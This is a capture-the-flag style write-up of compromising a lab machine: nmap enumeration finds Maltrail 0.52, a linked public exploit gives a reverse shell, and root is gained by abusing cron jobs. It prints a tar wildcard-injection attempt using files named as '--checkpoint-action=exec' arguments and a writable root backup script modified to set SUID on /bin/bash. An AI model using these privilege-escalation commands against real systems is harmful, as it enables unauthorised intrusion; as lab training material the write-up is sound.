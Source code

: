 ## First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Thu Mar 21 23:35:44 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80,8338 -Pn 192.168.190.32
Nmap scan report for 192.168.190.32
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
8338/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: Maltrail/0.52
|     Date: Thu, 21 Mar 2024 22:37:03 GMT
|     Connection: close
|     Content-Type: text/html
|     Last-Modified: Sat, 31 Dec 2022 22:58:57 GMT
|     Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
|     Cache-Control: no-cache
|     Content-Length: 7091
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta http-equiv="Content-Type" content="text/html;charset=utf8">
|     <meta name="viewport" content="width=device-width, user-scalable=no">
|     <meta name="robots" content="noindex, nofollow">
|     <title>Maltrail</title>
|     <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
|     <link rel="stylesheet" type="text/css" hre
|   HTTPOptions: 
|     HTTP/1.0 501 Unsupported method ('OPTIONS')
|     Server: Maltrail/0.52
|     Date: Thu, 21 Mar 2024 22:37:03 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF:upport\x20this\x20operation\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 21 23:37:28 2024 -- 1 IP address (1 host up) scanned in 103.76 seconds

```


## Enumerating web server 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/504ed636-805c-47bf-a402-cee1ce390089)

there's a web server running on port `80`, opening it on a browser w got a default apache webpage. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5b0f060-8cd1-41d4-a6cd-2801c055ecf2)

fuzzing the wweb url, got nothing hidden. 


## Enumerating port 8338 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/73ded4e9-de1b-43b4-bec0-e5e2db6369bc)

we can see it is running `mailtrail 0.52`. let's look for exploit. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/99045b74-3133-42fc-8880-339940e9fc6f)

found and exploit on github. [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9cb0ef34-2b62-4505-be6e-86ebcd7f34ae)

run the exploit and we got a reverse shell. 



## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/754bcba6-8dd0-4215-a1fa-6606f64a2286)

running pspy, we can see a cron job by root. Running tar. let's abuse it and also a cronjob for `/var/backups/etc_Backup.sh`

```shell
snort@ochima:/tmp$ cd /home/snort/
snort@ochima:~$ echo "" > '--checkpoint=1'
snort@ochima:~$ echo "" > '--checkpoint-action=exec=sh privesc.sh'
snort@ochima:~$ nano privesc.sh
snort@ochima:~$ cat privesc.sh 
#!/bin/bash

chmod +s /bin/bash
snort@ochima:~$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
snort@ochima:~$ 
```
the above did not work, let's check out the `/var/backups/etc_Backup.sh`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/edc2368b-2db5-41f6-98f1-050a3031cd7b)

we have full permission to the file. let's modify it 

```shell
snort@ochima:/var/backups$ cat /var/backups/etc_Backup.sh
#! /bin/bash 
tar -cf /home/snort/etc_backup.tar /etc
chmod +s /bin/bash
snort@ochima:/var/backups$ 
```
create an suid for `/bin/bash`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c4e4459a-7152-439f-b736-3fcc9b402ac8)

abuse the suid and boom w got root.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/07a103ef-957b-422f-9523-25c879068be1)

and we are through
